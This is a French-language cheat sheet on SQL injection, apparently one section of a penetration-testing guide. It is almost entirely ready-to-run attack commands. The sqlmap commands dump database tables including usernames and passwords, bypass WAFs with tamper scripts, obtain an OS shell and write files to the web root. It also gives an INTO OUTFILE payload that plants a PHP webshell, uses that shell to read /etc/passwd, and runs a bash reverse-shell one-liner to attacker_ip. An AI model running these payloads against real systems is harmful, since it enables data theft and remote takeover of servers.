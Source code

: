 ## 🔧 Utilisation de SQLMap (Automatisé)

### Détection et Exploitation Basique
```bash
# 1. Test de vulnérabilité
sqlmap -u "http://target.com/page.php?id=1"

# 2. Énumération des bases de données
sqlmap -u "http://target.com/page.php?id=1" --dbs

# 3. Énumération des tables
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# 4. Énumération des colonnes
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --columns

# 5. Extraction des données
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users -C username,password --dump
```

### Techniques Avancées avec SQLMap
```bash
# 1. Test POST data
sqlmap -u "http://target.com/login.php" --data="username=admin&password=admin"

# 2. Avec cookies/headers
sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=abc123"
sqlmap -u "http://target.com/page.php?id=1" --headers="X-Custom-Header: value"

# 3. Bypass WAF
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,randomcase

# 4. Obtenir un shell système
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# 5. Upload de fichiers
sqlmap -u "http://target.com/page.php?id=1" --file-write=/local/file.txt --file-dest=/var/www/html/shell.php
```

## 💣 Exploitation pour RCE (Remote Code Execution)

### Méthode 1 : INTO OUTFILE (MySQL)
```sql
-- Écrire un webshell PHP
http://target.com/page.php?id=1' UNION SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php'--

-- Utiliser le webshell
curl "http://target.com/shell.php?cmd=whoami"
curl "http://target.com/shell.php?cmd=cat /etc/passwd"

-- Reverse shell
curl "http://target.com/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'"
```
